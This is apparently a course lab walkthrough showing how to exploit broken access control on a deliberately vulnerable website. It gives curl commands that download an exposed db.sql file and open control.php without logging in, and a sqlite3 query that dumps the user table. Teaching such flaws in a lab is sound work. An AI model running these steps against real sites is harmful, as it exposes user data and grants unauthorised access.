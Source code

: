 # Vulnerable Website: Broken Access Control

To exploit the Broken Access Control vulnerability in the vulnerable website, follow these steps:

## Access to Database Directory

1. The directory structure of the vulnerable website is as follows:

    ```bash
    ├── db
    │ └── db.sql
    ├── control.php
    ├── css.css
    ├── dbconn.php
    ├── index.php
    ├── jquery-2.2.4.min.js
    └── js.js
    ```


2. Perform the following command to obtain the database file:

    ```bash
    curl http://10.10.1.231:51130/__db__/db.sql --output db.sql
    ```

    This command downloads the `db.sql` file from the `__db__` directory.

3. Once the db.sql file is obtained, execute the following command to print the content of the database:

    ```sql
    sqlite3 db.sql "SELECT * FROM user"
    ```

    This command uses SQLite to query and retrieve the data from the user table within the obtained database file.

<div align="center">
        <img src="https://github.com/BenIlies/CS394X/raw/main/Vulnerable-Website/Attacks/Broken-Access-Control/database-dumping.PNG" alt="Database Dumping">
</div>

## Lack of Session Management

1. In addition to the access to the database directory, there is a lack of Session Management for accessing the `control.php` page. This means that even without authenticating, a malicious user can still access the page.

    To highlight this, execute the following command (or perform the action in a web browser):

    ```bash
    curl http://10.10.1.231:51130/control.php
    ```

    This command accesses the `control.php` page without authentication, demonstrating the lack of proper session management. It allows unauthorized access to the web page.

    **Note:** Tools like DirBuster can be used to discover hidden files or directories, but they are not specifically related to this vulnerability.